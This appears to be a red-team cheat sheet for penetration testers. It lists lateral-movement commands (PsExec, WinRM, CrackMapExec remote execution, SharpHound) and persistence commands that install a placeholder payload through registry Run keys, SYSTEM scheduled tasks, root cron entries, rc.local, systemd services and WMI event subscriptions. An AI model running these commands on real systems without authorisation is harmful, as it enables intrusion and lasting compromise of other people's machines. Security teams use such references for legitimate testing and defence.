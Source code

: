 # Lateral Movement and Persistence Cheat Sheets 🕵️‍♀️

### Purpose
These cheat sheets provide quick access to common techniques, tools, and commands for lateral movement and persistence on Windows and Linux systems. They are valuable for penetration testers and red team operators looking to understand and simulate adversary tactics.

---

## 📖 Table of Contents

1. [Lateral Movement Cheat Sheet](#lateral-movement-cheat-sheet)
2. [Persistence Techniques Cheat Sheet](#persistence-techniques-cheat-sheet)

---

## 1. Lateral Movement Cheat Sheet

### 🛠 Common Tools for Remote Command Execution

1. **PsExec** (Windows):
   - PsExec is part of the Sysinternals suite and allows remote command execution on Windows.
   - **Basic Usage**:
     ```powershell
     psexec \\<target_ip> -u <username> -p <password> cmd
     ```
   - **Running as SYSTEM**:
     ```powershell
     psexec -s \\<target_ip> cmd
     ```

2. **WinRM (Windows Remote Management)**:
   - WinRM is commonly used for remote PowerShell sessions.
   - **Enable WinRM**:
     ```powershell
     winrm quickconfig
     ```
   - **Open a Remote PowerShell Session**:
     ```powershell
     Enter-PSSession -ComputerName <target_ip> -Credential <username>
     ```

3. **Remote Desktop Protocol (RDP)**:
   - RDP allows remote GUI access to Windows systems.
   - **Enable RDP**:
     ```powershell
     Set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server' -Name "fDenyTSConnections" -Value 0
     ```

4. **SSH (Linux and Windows)**:
   - SSH is a standard protocol for remote access on Linux and can be enabled on Windows.
   - **Command**:
     ```bash
     ssh <username>@<target_ip>
     ```

### 🧰 PowerShell Remoting Commands

1. **Invoke-Command**:
   - Run commands on a remote machine over WinRM.
   ```powershell
   Invoke-Command -ComputerName <target_ip> -Credential <username> -ScriptBlock { <command> }
   ```

2. **Copy Files via PowerShell Remoting**:
   - Use `Copy-Item` to transfer files between systems.
   ```powershell
   Copy-Item -Path C:\localfile.txt -Destination \\<target_ip>\C$\Users\Public\ -Credential <username>
   ```

3. **Establish a Persistent Session**:
   - Use `New-PSSession` for long-lived sessions that can run multiple commands.
   ```powershell
   $session = New-PSSession -ComputerName <target_ip> -Credential <username>
   Invoke-Command -Session $session -ScriptBlock { <command> }
   ```

### 🔍 Techniques for Using CrackMapExec and BloodHound

1. **CrackMapExec (CME)**:
   - CrackMapExec is a versatile tool for Active Directory reconnaissance and remote command execution.
   - **Enumerate Shares**:
     ```bash
     crackmapexec smb <target_ip> -u <username> -p <password> --shares
     ```
   - **Check for Local Admin Privileges**:
     ```bash
     crackmapexec smb <target_ip> -u <username> -p <password> --local-auth
     ```
   - **Execute Commands Remotely**:
     ```bash
     crackmapexec smb <target_ip> -u <username> -p <password> -x "whoami"
     ```

2. **BloodHound**:
   - BloodHound is used to map and analyze relationships in Active Directory, revealing paths for privilege escalation and lateral movement.
   - **Collect Data with SharpHound**:
     - SharpHound is the BloodHound data collector and can be run on the target network.
     ```powershell
     .\SharpHound.exe -c All
     ```
   - **Upload to BloodHound**:
     - Import the `.zip` output from SharpHound into BloodHound for analysis and visualization.

---

## 2. Persistence Techniques Cheat Sheet

### 🔒 Windows Registry Persistence Commands

- **Run Key Persistence (User-Specific)**:
  - Adds an entry to the `HKCU` (Current User) `Run` key to execute a payload on user logon.
  ```powershell
  reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v <key_name> /t REG_SZ /d "C:\path\to\payload.exe" /f
  ```

- **Run Key Persistence (Machine-Wide)**:
  - Adds an entry to the `HKLM` (Local Machine) `Run` key to execute a payload on any user logon.
  ```powershell
  reg add HKLM\Software\Microsoft\Windows\CurrentVersion\Run /v <key_name> /t REG_SZ /d "C:\path\to\payload.exe" /f
  ```

- **Registry-Based Scheduled Task Persistence**:
  - Adds a scheduled task entry to run at a set time or interval.
  ```powershell
  reg add HKLM\Software\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tasks\{<GUID>} /v Path /t REG_SZ /d "C:\path\to\payload.exe" /f
  ```

### ⏰ Windows Scheduled Task Creation Commands

- **Create a Scheduled Task with schtasks**:
  - Run a command or payload at specified intervals (e.g., at logon or daily).
  ```powershell
  schtasks /create /sc onlogon /tn "<task_name>" /tr "C:\path\to\payload.exe" /ru SYSTEM
  ```

- **Set a Daily Trigger for the Task**:
  ```powershell
  schtasks /create /sc daily /tn "<task_name>" /tr "C:\path\to\payload.exe" /st 12:00
  ```

- **List All Scheduled Tasks**:
  ```powershell
  schtasks /query /fo LIST /v
  ```

- **Delete a Scheduled Task**:
  ```powershell
  schtasks /delete /tn "<task_name>" /f
  ```

### 🔄 Linux Cron Job Persistence Examples

1. **User-Specific Cron Job**:
   - Add a cron job to the current user’s crontab to execute a payload at regular intervals.
   ```bash
   (crontab -l 2>/dev/null; echo "@reboot /path/to/payload") | crontab -
   ```

2. **System-Wide Cron Job**:
   - Add a cron job for all users by editing `/etc/crontab`.
   ```bash
   echo "@reboot root /path/to/payload" >> /etc/crontab
   ```

3. **Scheduled Cron Job**:
   - Schedule a command to run every hour.
   ```bash
   echo "0 * * * * /path/to/payload" | crontab -
   ```

4. **Persistent Cron Job via Script in `/etc/cron.d/`**:
   - Place a script file in `/etc/cron.d/` with specified permissions to execute the payload.
   ```bash
   echo "* * * * * root /path/to/payload" > /etc/cron.d/persistent_task
   chmod 644 /etc/cron.d/persistent_task
   ```

### 🛠 Additional Persistence Techniques

1. **Linux Init Scripts**:
   - Modify existing init scripts or create a new one in `/etc/init.d/` to run on system startup.
   ```bash
   echo "/path/to/payload" >> /etc/rc.local
   ```

2. **Systemd Service Persistence (Linux)**:
   - Create a custom service file to run a payload as a background service.
   ```bash
   echo -e "[Unit]\nDescription=CustomService\n\n[Service]\nExecStart=/path/to/payload\n\n[Install]\nWantedBy=multi-user.target" > /etc/systemd/system/customservice.service
   systemctl enable customservice
   ```

3. **Windows WMI Event Subscription**:
   - Use Windows Management Instrumentation (WMI) to create an event-based persistence mechanism.
   ```powershell
   $filter = New-CimInstance -Namespace root\subscription -ClassName __EventFilter -Property @{Name="PersistenceFilter";QueryLanguage="WQL";EventNamespace="root\cimv2";Query="SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_LocalTime' AND TargetInstance.Hour = 10 AND TargetInstance.Minute = 0"}
   $consumer = New-CimInstance -Namespace root\subscription -ClassName CommandLineEventConsumer -Property @{Name="PersistenceConsumer";CommandLineTemplate="C:\path\to\payload.exe"}
   $binding = New-CimInstance -Namespace root\subscription -ClassName __FilterToConsumerBinding -Property @{Filter=$filter;Consumer=$consumer}
   ```

---

### 📘 Resources

- **CrackMapExec Documentation**: [CrackMapExec GitHub](https://github.com/byt3bl33d3r/CrackMapExec)
- **BloodHound Documentation**: [BloodHound Wiki](https://github.com/BloodHoundAD/BloodHound/wiki)
- **PayloadsAllTheThings**: [Persistence Techniques](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Persistence)
